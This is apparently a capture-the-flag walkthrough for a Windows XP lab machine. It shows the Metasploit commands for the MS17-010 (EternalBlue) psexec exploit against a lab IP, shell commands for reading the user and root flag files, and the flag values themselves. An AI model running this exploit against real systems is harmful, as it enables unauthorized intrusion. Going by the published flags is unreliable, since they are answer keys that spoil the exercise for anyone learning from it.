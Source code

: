# Legacy Walkthrough 

## Legacy Nmap Scan

![](Nmap.jpeg)

## Shell
Eternal Blue is used to gain shell. As the nmap shows the Windows machine has a chance 94% of being an Windows XP machine a quick exploitdatebase search of a potential vulnerablity revealed ms17_010_psexec
```
use windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.4
exploit
```


```
>cd Documents and Settings
>cd \john\Desktop
>cat \user.txt
>cd
>cd Administrator 
>ls
>cd Desktop
>ls
>cat root.txt
```


# Flags

| John          | e69af0e4f443de7e36876fda4ec7644f  |
| ------------- | ------------- |
| root          | 993442d258b0e0ec917cae9e695d5713  |
